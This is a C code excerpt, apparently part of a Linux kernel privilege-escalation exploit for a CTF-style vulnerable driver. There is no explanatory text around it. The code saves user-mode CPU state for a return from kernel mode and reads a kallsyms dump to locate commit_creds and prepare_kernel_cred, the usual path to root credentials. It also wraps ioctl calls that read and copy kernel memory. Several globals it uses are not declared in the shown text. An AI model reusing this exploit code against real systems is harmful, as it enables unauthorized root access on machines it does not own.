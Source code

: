 ```c
size_t raw_vmlinux_base=0xffffffff81000000;
size_t vmlinux_base=0;
size_t vmoffset=0;

size_t user_cs, user_ss, user_rflags, user_sp;
void saveStatus()
{
    __asm__("mov user_cs, cs;"
            "mov user_ss, ss;"
            "mov user_sp, rsp;"
            "pushf;"
            "pop user_rflags;"
            );
    puts("\033[34m\033[1m[*] Status has been saved.\033[0m");
}

// get address from /tmp/kallsym
void get_address()
{
    FILE* symbols_table=fopen("/tmp/kallsyms","r");
    if(symbols_table==NULL)
    {
		printf("\033[31m\033[1m[x] Error: Cannot open file \"/tmp/kallsyms\"\n\033[0m");
		exit(1);
    }
     
    size_t addr = 0;
	char type[0x10];
	char func_name[0x50];
	// when the reading raises error, the function fscanf will return a zero, so that we know the file comes to its end.
	while(fscanf(symbols_table, "%llx%s%s", &addr, type, func_name))
    {
		if(commit_creds && prepare_kernel_cred)		// two addresses of key functions are all found, return directly.
			return;
        // function "commit_creds" found
		if(!strcmp(func_name, "commit_creds"))
        {		
			commit_creds = addr;
			printf("\033[32m\033[1m[+] Note: Address of function \"commit_creds\" found: \033[0m%#llx\n", commit_creds);
		}
        // function "prepare_kernel_cred" found
        if(!strcmp(func_name, "prepare_kernel_cred"))
        {	
			prepare_kernel_cred = addr;
			printf("\033[32m\033[1m[+] Note: Address of function \"prepare_kernel_cred\" found: \033[0m%#llx\n", prepare_kernel_cred);
		}
	}
}

void coreRead(char* buf)
{
    ioctl(fd,0x6677889B,buf);
}

void coreCopyFunc(size_t length)
{
    ioctl(fd,0x6677889A,length);
}

```